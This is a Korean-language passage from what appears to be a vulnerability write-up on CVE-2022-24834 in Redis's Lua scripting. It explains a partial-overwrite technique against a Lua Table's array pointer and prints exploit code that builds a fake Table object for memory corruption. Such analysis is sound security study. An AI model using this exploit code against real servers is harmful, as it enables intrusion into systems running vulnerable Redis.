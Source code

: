 > 그림.1 [출처](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
> 

Overflow가 발생하는 버퍼보다 높은 주소에 할당된 `Table`의 `array`를 Partial Overwrite하여 LSB를 `"`(0x22)로 변환하면 실제 배열과 가까운 다른 주소를 가리키게 만들 수 있습니다. 이 주소에 사전에 가짜 배열(fake array)를 구성해둔다면 아래와 같이 Fake Object에 접근할 수 있습니다.

![Untitled](1day1document_CVE-2022-24834/Untitled%201.png)

> 그림.2 [출처](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
> 

### 2. Fake Table

익스플로잇 코드에서는 아래와 같이 조작된 `array`가 가리키는 배열의 첫 번째 원소로 사용될 Fake Table을 구성합니다.

```lua
   local heap_addr_leaker = {}
   local fake_array_base = addrof(heap_addr_leaker)
   ...
   local fake_table_template = ( -- TString
   -- TString -> 0x18 bytes
      -- typedef union TString {
         -- L_Umaxalign dummy;  /* ensures maximum alignment for strings */
         -- struct {
            -- CommonHeader;
            -- lu_byte reserved;
            -- unsigned int hash;
            -- size_t len;
         -- } tsv;
      -- } TString;
      "SSSSSSSSFF" -- (pad for address 0xXXXXXX2'2') -- start from offset 0x18, until 0x22
      .. "\000\000\000\000\000\000\000\000" -- *next
      .. "\005" -- tt (LUA_TTABLE)
      .. "\001" -- marked
      .. "\000" -- flags
      .. "\000\000\000\000\000" -- ~ int readonly
      .. "\000\000\000\000\000\000\000\000" -- _padding_ for  lu_byte lsizenode
      .. "\000\000\000\000\000\000\000\000" -- *metatable
      .. p64(fake_array_base) -- *array --> low heap address
      .. "\000\000\000\000\000\000\000\000" -- *node
      .. "\000\000\000\000\000\000\000\000" -- *lastfree
      .. "\000\000\000\000\000\000\000\000" -- *gclist
      .. "\255\255\255\127\000\000\000\000" -- sizearray
   )
   ...
```

